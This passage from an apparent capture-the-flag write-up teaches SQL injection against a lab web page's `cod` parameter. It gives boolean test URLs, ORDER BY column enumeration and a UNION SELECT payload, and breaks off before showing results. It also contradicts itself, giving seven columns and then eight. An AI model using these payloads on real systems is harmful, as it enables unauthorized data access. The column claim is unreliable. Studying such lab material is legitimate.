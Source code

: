 There may be an SQL injection here. To test, try and trick the webpage to display a valid result for an invalid room number. Assuming the SQL syntax in the backend looks something like this:

```sql
SELECT title,price,description FROM rooms WHERE ID=6
```

Then trying the following queries with the `cod` parameter of the URL should trigger the vulnerability:

- `http://10.10.10.143/room.php?cod=6%20and%201=2`
- `http://10.10.10.143/room.php?cod=6%20and%201=1`

They should result in the following SQL queries in the backend:

```sql
SELECT title,price,description FROM rooms WHERE ID=6 and 1=2 -- should return nothing
SELECT title,price,description FROM rooms WHERE ID=6 and 1=1 -- should return something
```

And that works! That is valid SQL injection. Next, get the number of columns in the query using `ORDER BY`. Starting at 1 and incrementing, shows that the number of columns is 7:

- `http://10.10.10.143/room.php?cod=6%20ORDER%20BY%201` returns something
- `http://10.10.10.143/room.php?cod=6%20ORDER%20BY%202` returns something
- `...`
- `http://10.10.10.143/room.php?cod=6%20ORDER%20BY%208` returns nothing

The underlying SQL query now looks more like the following with this injection:

- https://www.w3schools.com/sql/sql_orderby.asp

```sql
-- X is the column number to order results the by
SELECT c1,c2,c3,c4,c5,c6,c7 FROM rooms WHERE ID=6 ORDER BY 7
```

Knowing there are 8 columns, now make a `UNION` query to return user requested results:

- https://www.w3schools.com/sql/sql_ref_union.asp

```sql
0 UNION ALL SELECT 1,2,3,4,5,6,7 -- use for GET parameter cod in URL
```

This returns the following:
